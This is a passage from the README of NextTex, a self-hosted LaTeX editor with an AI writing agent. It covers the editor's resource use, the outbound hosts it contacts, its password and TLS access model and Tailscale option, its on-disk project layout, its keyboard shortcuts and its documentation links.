| Memory, with a forty-file project open | about 91 MB |
| Processor, idle | 0.1% of one core |
| The state directory | tens of kilobytes |

The number that surprises people is the third one: an idle NextTex is
genuinely idle. There is no polling loop and no scheduled work. The file
watcher waits on the operating system, and a build only happens because you
typed something. Choosing no agent, or OpenAI, takes the idle figure to about
60 MB, because the Claude SDK is the larger part of it.

What is *not* in those numbers is `latexmk`, which is a separate process that
starts when a build does and exits when it finishes. A big build is the one
time NextTex will use a whole core, and that is TeX rather than NextTex.

On disk, an install is about 300 MB, nearly all of it the Python virtual
environment. TeX is much larger than everything else here, since TinyTeX is about
460 MB installed, and it goes outside NextTex and shared with anything else on
the machine that typesets.

Your projects are the rest, and they are yours: the version history is
compressed and content-addressed, so a year of writing is usually smaller
than the PDF it produces.

## What leaves this machine

NextTex serves your own files from your own machine and ships its own
typefaces, so the interface works on a host with no route to the internet.
Six things go out, all of them things you asked for:

1. What you send the agent, to Anthropic or OpenAI.
2. Reference lookups, to Crossref, OpenAlex, Semantic Scholar, arXiv and
   `doi.org`.
3. What the installer downloads, and only what the plan it printed said it
   would: TinyTeX from `yihui.org` and `tinytex.yihui.org`, the Claude CLI
   from `claude.ai` if you chose it, and `uv` from `astral.sh` when this
   machine's Python cannot make a virtual environment on its own. It also opens a two-second
   connection to each of those before it asks you anything, so that being
   offline is something you are told rather than something you wait for.
4. GitHub, to check whether this install is behind and to download the
   interface for the commit it is on. Nothing about you or your documents
   goes with either request.
5. **Only if you agree to it**, and never on its own: `pypi.org`, when a
   figure needs a Python package this install does not have. The agent
   reports the missing package and asks; installing it is a press of yours
   and a card you answer, and nothing about your documents goes with the
   request.
6. **Only once you share a project**, and not before: iroh's discovery at
   `dns.iroh.link` and its relays at `relay.n0.iroh.link`, so two
   collaborators can find each other through whatever home routers and
   university firewalls are in the way.

   That one is worth being precise about, because it is traffic between you
   and somebody else passing through machines neither of you runs. A
   connection between peers is QUIC over TLS *to the other peer's public
   key*. A relay forwards ciphertext: it can see that two endpoint ids are
   talking and roughly how much, and it cannot see a document, a file name,
   or who either of you is. Where the two of you can reach each other
   directly, in the same office or on the same tailnet, nothing goes through a
   relay at all. A project you have not shared contacts none of it.

That is the whole list, and a test fails if a new host appears in the source
without this section changing. There is no telemetry and no analytics of any
kind: not disabled by default, not present.

<details><summary>Access, TLS, and why Tailscale is in here</summary>

The installer prints a URL carrying a token, which is how the first browser
gets in. That browser is then asked to set a password, the way JupyterLab
does, and once there is one every browser after it gets a sign-in page.
Signing in issues *that browser* its own session rather than handing it the
install's token, so no browser is holding the master credential, and the
settings sheet can sign the others out, which is useful when the one you left signed
in is a laptop you no longer have. The token stays as the way back in, as a query parameter or an
`x-nexttex-token` header, so scripts are unaffected and a forgotten password
is recoverable from the machine itself.

On localhost it is plain HTTP, so a password typed at the machine's own
browser crosses nothing but the loopback; any address another machine can
reach is served over TLS, with a certificate from `tailscale cert` where your
tailnet has HTTPS and a self-signed one otherwise. A password never crosses a
network in the clear.

This is a separate question from who may sync with you. The password decides
which *browsers* may drive this install; a collaborator's public key decides
which *installs* may exchange documents with it. Neither one grants the other.

Signing in to Claude drives the CLI's own login and the credentials land where
the CLI keeps them, so NextTex never sees or stores them. An OpenAI key goes
in the instance's config file, `chmod 600`.

Tailscale is in here because the machine you want to write on is often not the
one you are sitting at: a lab workstation, a compute server, the box the data
lives on. The usual answer is an SSH tunnel each time, or a reverse proxy and
a certificate and a hostname to maintain. Choose Tailscale at install time
instead and the server also answers on your tailnet address, over TLS,
reachable from your own devices and nothing else. The machine can sit behind a
university firewall with no inbound route and still be the one you write on
from a train. If you only ever write at the desk it is installed on, say
localhost and skip it.
</details>

## A project on disk

Point NextTex at any folder containing a LaTeX document.
`examples/minimal-article` is there to try it on. A project can carry a
`nexttex.toml`:

```toml
[project]
name = "My Thesis"
main = "main.tex"
build_dir = "build"

# Written by the settings sheet and yours to edit. Per project rather than
# per browser: a forty-file thesis takes twenty seconds to build and a
# one-page note takes one.
autocompile = true      # build as you type; ⌘S builds when this is off
mark_errors = true      # mark compile errors in the text itself
mark_warnings = false   # and chktex warnings, which are noisier
```

Without one, NextTex finds the file containing `\documentclass` and
`\begin{document}` and uses that.

Everything NextTex adds lives in one directory beside your files, and none of
it is needed to compile:

```
your-paper/
├── main.tex                 your files, untouched
├── chapters/
├── references.bib
├── build/                   latexmk's output
└── .nexttex/                everything NextTex adds
    ├── history/             versions, content-addressed
    ├── trash/               deleted files, kept until you say otherwise
    ├── transcript.jsonl     the conversation
    ├── context/             what you gave the agent to read
    └── collab/              the shared documents, if you have shared it
```

Delete `.nexttex/` and you have exactly the LaTeX project you started with.
On a shared project that also leaves the share. The files are all still
there, and somebody would have to invite you back.

## Keyboard

| Key | Does |
|---|---|
| `⌘S` / `Ctrl-S` | Put the file on disk this instant; builds instead when compile-as-you-type is off |
| `⌘B` / `Ctrl-B` | Hide the file list |
| `⌘⌥A` / `Ctrl-Alt-A` | Show or hide the agent panel, ready to type |
| `⌘↵` / `Ctrl-↵` | Scroll the PDF to the line you are on |
| `⌘F` / `Ctrl-F` | Find and replace in the file you are in |
| `⌘⇧F` / `Ctrl-⇧F` | Find and replace across every file in the project |
| `⌘⌥O` / `Ctrl-Alt-O` | Open a file by typing its name |
| `⌘⌥[` `⌘⌥]` / `Ctrl-Alt-[` `Ctrl-Alt-]` | Previous and next tab |
| `⌘⌥W` / `Ctrl-Alt-W` | Close the tab in front |
| `⌘⌥⇧T` / `Ctrl-Alt-⇧T` | Reopen the tab you just closed |
| `F8`, `⇧F8` | Next and previous error |
| Typing, in the file tree | Jump to a file |
| `F2`, `Delete`, in the file tree | Rename, move to trash |
| `Esc`, in the agent panel | Stop the turn if one is running, otherwise close the panel |
| `A`, `⇧A`, `C`, `D`, in a permission card | Allow, allow always, allow for this conversation, deny |

## Documentation

There is a tutorial inside the app: the cog in the file list's masthead
opens Settings, which has a **Tutorial** button at its foot, and the projects
screen has a question mark beside its own cog. Both explain what is on the
screen you are looking at, which is usually faster than the files below.

- [docs/architecture.md](docs/architecture.md): how it works inside. What the
  parts are, what each one owns, and why the awkward decisions are the way
  they are.
- [docs/first-session.md](docs/first-session.md): the long version of the
  walkthrough above.
- [docs/design.md](docs/design.md): the specification the interface was built
  against, the audits it was reviewed in, and every decision with its reason.
- [docs/project-context.md](docs/project-context.md): how a template, a
  handbook and a sample of your own writing change what the agent produces.
- [docs/testing.md](docs/testing.md): the four test tiers, why each exists,
  and the bugs they found.
- [TRACKER.md](TRACKER.md): what is being worked on and what is waiting, each
  waiting item with its reason. Working state rather than documentation, which
  is why it sits outside `docs/`, and it is struck and added to in the same
  commit as the code so it cannot drift out of date on its own.

## Licence

MIT. See [LICENSE](LICENSE).

NextTex was built to write scientific papers in: the kind of document that
lives in git, carries a bibliography, and gets rewritten more often than it
gets written. It is tested against a forty-file LaTeX project with its own
Makefile, which NextTex has to leave working exactly as it was. Issues are
welcome. This is a personal tool; I make no promises about pull requests.
